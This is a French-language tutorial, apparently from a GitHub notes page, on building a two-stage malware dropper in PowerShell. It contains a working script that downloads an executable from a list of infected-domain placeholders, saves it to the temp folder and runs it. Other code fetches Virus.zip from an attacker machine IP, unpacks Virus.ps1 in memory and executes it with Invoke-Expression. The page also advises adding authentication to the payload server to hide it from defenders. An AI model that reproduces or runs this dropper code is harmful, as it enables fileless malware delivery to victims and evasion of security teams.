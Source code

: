 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

# __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Notez qu'il est conseillé de mettre une authentification web au téléchargement dans le but d'éviter une collecte par des blueTeamers qui aurai vu passer le flux sans avoir accès au code du dropper.

### Exemple

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

## __Telechargement__

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri 'http://<MACHINE_IP>:8000/Virus.zip' -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.WebClient];

# Telechargement des donnes dans une variable
$zip = $webClient.DownloadData('http://<MachineIP>:8000/Virus.zip');
```


## __Extraction__

Une fois l'étape précédente effectué, le ZIP se trouve en mémoire dans la variable $zip. On doit donc les extraire en restant en mémoire.

```powershell
# Chargement de la bibliothèque System.IO.Compression
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;

# Ouverture du fichier 'Virus.ps1' dans l'objet zip en mémoire
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');

# Décompression du fichier
$b = [byte[]]::new($entry.Length);
$entry.Open().read($b, 0, $b.Length);

# Conversion en texte UTF8
$code = [System.Text.Encoding]::UTF8.GetString($b);
```


## __Execution__

Une fois le payload stocké en mémoire il ne reste plus qu'à l'éxécuter.

```powershell
$code | Invoke-Expression
```
